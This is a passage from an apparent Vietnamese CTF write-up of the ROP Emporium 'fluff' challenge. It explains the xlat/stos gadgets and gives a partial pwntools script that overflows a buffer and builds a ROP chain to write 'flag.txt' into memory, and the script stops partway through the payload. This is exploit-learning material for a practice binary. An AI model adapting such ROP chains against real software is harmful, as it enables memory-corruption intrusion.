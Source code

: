 Đưa địa chỉ byte để ghi giá trị từ AL vào 

```	
xtos 
```

Như đã nói, lệnh này sau khi sử dụng sẽ lưu giá trị của thanh ghi al vào [rdi] sau đó tăng rdi lên 1 đơn vị. Khi đó tại địa chỉ chuỗi ghi **0x6010f0** sẽ chứa ký tự "f" 

![string.png](images/string.png)

# Tiếp tục lặp lại cho đến khi ghi đủ 8 ký tự "f", "l", "a", "g", ".", "t", "x", "t"


Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./fluff', checksec=False)

p = process("./fluff")
#gdb.attach(p, gdbscript='''
#b*pwnme+152
#c
#''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_r14_r15 = ROP(elf).find_gadget(["pop r14", "pop r15", "ret"])[0]
pop_r12_r13_r14_r15 = 0x000000000040069c
vuln = elf.sym['usefulFunction']
gadget = elf.sym['questionableGadgets']
xtos = gadget + 17 			#Luu gia tri cua al vao [rdi]
xlat = gadget + 0			#Luu ky tai [rbx+al] vao lai al  
pop_rdx_rcx_addrcx = gadget + 2 	#add rcx,0x3ef2 roi luu vao rbx 

f_char = 0x4003c4
l_char = 0x400239
a_char = 0x4003d6
g_char = 0x4003cf
dot_char = 0x40024e
x_char = 0x400246
t_char = 0x4003d5

null_addr = 0x6010f0             
   
payload1 = flat(#rdx , rcx , addrcx
	cyclic(0x28),

	pop_rdx_rcx_addrcx,             #ghi f vào 0x6010f0
	0x3000,
	f_char-0x3ef2-0xb,
	xlat,
	pop_rdi_ret,
	null_addr,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi l vào 0x6010f1
```